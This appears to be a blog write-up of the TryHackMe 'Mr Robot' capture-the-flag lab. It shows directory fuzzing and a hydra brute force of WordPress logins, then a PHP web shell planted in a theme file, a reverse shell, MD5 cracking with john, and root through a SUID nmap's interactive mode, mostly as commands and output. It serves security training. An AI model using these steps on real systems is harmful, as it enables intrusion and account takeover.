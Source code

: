 ```yaml
---
title: TryHackMe | Mr Robot CTF
author: Zeropio
date: 2022-09-25
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/mr-robot-ctf
---
```



# Foothold

The nmap show:

```
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  closed http
443/tcp closed https
```

The nmap doesn’t tell us which OS is. With `ping` we can see the ttl:

```console
zero@pio$ ping 10.10.3.202 
	PING 10.10.3.202 (10.10.3.202) 56(84) bytes of data.
	64 bytes from 10.10.3.202: icmp_seq=1 ttl=63 time=74.9 ms
```

With the **ttl=63** we can probably is Linux. Both webpages show the same, a copy of the Mr Robot show. We can see that the page ends with a terminal prompt. We can see a bunch of aviable commands:

```
prepare
fsociety
inform
question
wakeup
join
```

We found some webpages with some commands, like **/fsociety**, **/inform**, **/question**, **/wakeup** and **/join**. In the last one, the page ask for an email.

If we fuzz by directories:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.3.202/FUZZ'

	admin                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 63ms]
	js                      [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 63ms]
	wp-content              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 61ms]
	css                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 59ms]
	wp-admin                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 60ms]
	wp-includes             [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 61ms]
	blog                    [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 49ms]
	xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 1402ms]
	login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1444ms]
	feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 775ms]
	rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 787ms]
	video                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 49ms]
	image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 705ms]
	audio                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 49ms]
	phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 314ms]
	dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 689ms]
	wp-login                [Status: 200, Size: 2606, Words: 115, Lines: 53, Duration: 2060ms]
```

We see that is a wordpress. The login page redirect to the **/wp-login.php**. We can also found the **/robots.txt**, where we have the first flag:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The **/fsocity.dic** page will download the file, a passlist. Let’s try finding some valid username and using the wordlist. First we start with:

```console
zero@pio$ curl http://10.10.3.202/wp-json/wp/v2/users | jq
```

But we got to a non existent page. 

---

# Fingerprint

We see that the page **http://10.10.99.194/xmlrpc.php** it is up. We can try enumerating user through it , without succes.

```console
zero@pio$ wpscan --url 'http://10.10.3.202/' --enumerate u
zero@pio$ sudo wpscan --password-attack xmlrpc -t 20 -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P fsocity.dic --url 'http://10.10.3.202/'
```

We can try some names until we found **Elliot**. Now we can use `hydra`:

```console
zero@pio$ hydra -l Elliot -P fsocity.dic 10.10.3.202 -s 80 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=<div id="login_error">' -t 30

	[80][http-post-form] host: 10.10.3.202   login: Elliot   password: ER28-0652
```

Now that we are login we can do the classical reverse shell in the Wordpress themes. We will edit the `http://10.10.3.202/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` file to create a reverse shell. We will add `system($_GET['cmd']);` at the beginning of the file. Now we can test it:

```console
zero@pio$ curl -X GET 'http://10.10.3.202/wp-content/themes/twentyfifteen/404.php?cmd=id'

	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

We cannot get a reverse shell from there so we will edit `http://10.10.3.202/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=2967`. Copy and paste the [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell and access the system.

---

# Privilege Escalation

We found an user in the `/home`{: .filepath} folder. Inside of it, there is a md5 password:

```console
$ cd /home/     
$ ls
	robot
$ cd robot
$ ls
	key-2-of-3.txt
	password.raw-md5
$ cat key-2-of-3.txt
	cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
	robot:c3fcd3d76192e4007dfb496cca67e13b
```

With `john` we can crack it easily:

```console
zero@pio$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash 
	Created directory: /home/zeropio/.john
	Using default input encoding: UTF-8
	Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	abcdefghijklmnopqrstuvwxyz (?)
```

We cannot use commands like `su` or `sudo`. We need to upgrade the shell and login:

```console
$ su robot
	su: must be run from a terminal
$  python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
	su robot
	Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
```

We can search for SUID permissions:

```console
robot@linux:~$  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
	-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
	-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
	-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
	-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
	-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
	-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
	-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
	-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
	-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
	-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
	-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

We found `nmap` between them. Searching in [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#shell) we found a possible explotation:

```console
robot@linux:/usr/local/bin$ nmap --interactive

	Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
	Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh               
# whoami
	root
```

The last flag is in the `/root`{: .filepath} directory.